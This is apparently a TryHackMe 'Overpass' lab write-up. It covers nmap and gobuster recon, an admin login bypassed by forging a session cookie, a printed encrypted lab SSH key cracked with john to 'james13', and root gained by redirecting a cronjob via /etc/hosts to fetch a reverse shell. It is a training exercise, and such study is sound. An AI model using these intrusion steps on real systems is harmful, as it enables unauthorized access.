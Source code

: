 [![Needed-nmap](https://img.shields.io/badge/Needed-nmap-blue)](https://nmap.org/)
[![Needed-Gobuster](https://img.shields.io/badge/Needed-Gobuster-orange)](https://github.com/OJ/gobuster)
[![Needed-John](https://img.shields.io/badge/Needed-John-red)](https://github.com/openwall/john)

# Overpass
*What happens when a group of broke Computer Science students try to make a password manager?
Obviously a perfect commercial success!*

## Reconnaissance
Running nmap on the target machine it's the first step. The result is:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ sudo nmap -sC -sV 10.10.123.120

Nmap scan report for 10.10.123.120
Host is up (0.052s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Port 22 runs OpenSSh service, but at this point I don't have credentials nor a SSH key. Maybe it will be useful later.<br>
Port 80 runs Overpass site over http. There is nothing particularly strange, so I can procede with enumeration

## Enumeration
As always gobuster is a must, and even this time it tells me that there's an "admin" dir... Very imaginative!
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt dir -u http://10.10.123.120/ -x py,php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.123.120/
[+] Method:                  GET
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] Extensions:              py,php,txt
===============================================================
2022/03/25 18:18:05 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
...
```

## Login
### Admin panel login
Visiting `/admin` I can see a login form. Brute-forcing seems pretty long and tedious, so the first thing to do (always) is check the code.<br>
Indeed, this code is somehow bugged:
```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)  // <--- Do NOT do this at home
        window.location = "/admin"
    }
}
```

In case you don't get this don't worry, I lost some time on this (^_^;)<br>
It seems that the only thing shielding the admin page from the attackers is a cookie... Then why not forging one!?
Using the browser I can do it by opening developer panel and going to **Application > Cookie > sitename.com > +**. It's not even important the cookie's content, but the name must be "SessionToken".

Now I can refresh (actually I went to `admin/?`, since refreshing didn't work for me as it did with others) and see a page with some instruction written by the lead developer.
Inside there's an SSH certificate to log on the machine, but we don't know the passphrase
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```

### SSH connection
Having the SSH key I can crack the passphrase, if it's contained in my dictionary (rockyou.txt). To do this I use ssh2john, and then john.
```
┌──(marco㉿DellMarco)-[/mnt/f/kali/TryHackMe/Overpass]
└─$ john h.hash --wordlist=/usr/share/wordlists/rockyou.txt                
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
james13          (id_rsa)     
1g 0:00:00:00 DONE (2022-03-26 23:48) 33.33g/s 445866p/s 445866c/s 445866C/s 120806..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
It takes a very short time to unveil the passphrase: "james13". Now I can connect to `james@10.10.59.169` with the [certificate](./id_rsa).
Once I'm in, I can find the user flag in `/home/james`.

## PrivEsc
Since `sudo -l` and `find / .perm 6000` don't give out anything useful I download `linpeas.sh` and host it on a python http sever to upload it on the target machine.
Running `linpeas.sh` I notice that:
- a cronjob calls a bash script from tryhackme.com
- `/etc/hosts` is writable

Modifying `/etc/hosts` I pair my IP address with the name `tryhackme.com`, so from now on the target will reach my IP to get the script. Now I just need to create a bash [reverse shell](./downloads/src/buildscript.sh) to host with a python http server on port 80.<br>
In a moment netcat, waiting obediently on port 4242, will get his shell. Root flag will be in `/root` :)
